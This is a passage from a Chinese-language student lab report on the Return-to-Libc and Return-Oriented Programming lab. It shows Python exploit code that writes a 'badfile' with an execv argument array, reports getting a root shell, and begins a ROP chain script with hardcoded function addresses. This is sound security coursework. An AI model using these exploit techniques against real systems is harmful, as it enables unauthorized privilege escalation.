       
      # The second argument of execv()
      argv = 0xffffcd78 + 504   # address of argv[]
      content[start+12: start+16] = (argv).to_bytes(4, byteorder='little')
      # Construct the argv[] array
      arg1_addr = bash_addr
      arg2_addr = p_addr
      arg3_addr = 0x0
      content[504: 508] = (arg1_addr).to_bytes(4,byteorder='little')
      content[508: 512] = (arg2_addr).to_bytes(4,byteorder='little')
      content[512: 516] = (arg3_addr).to_bytes(4,byteorder='little')
      # Save content to a file
      with open("badfile", "wb") as f:
        f.write(content)
      ```
   
   4. 成功获取root权限shell
   
      ![获取权限](/img/posts/2023-11-20-Return_to_Libc实验报告/images/获取权限.png)
   
   
   
   ### Task 5 (Optional): Return-Oriented Programming  
   
   1. ROP攻击实验一（无参数串接函数）
   
      无参数ROP传递链构造比较简单，因为正常情况下在正常执行函数后esp指针自动指向下一帧，所以只需将bar函数的地址按序填入返回地址10次即可。
   
      构造脚本
   
      ```python
      #!/usr/bin/env python3
      import sys
      
      def tobytes(value):
        return (value).to_bytes(4,byteorder="little")
      
      bar_addr = 0x565562d0    # The address of foo()
      exit_addr = 0xf7e04f80  # The address of exit()
      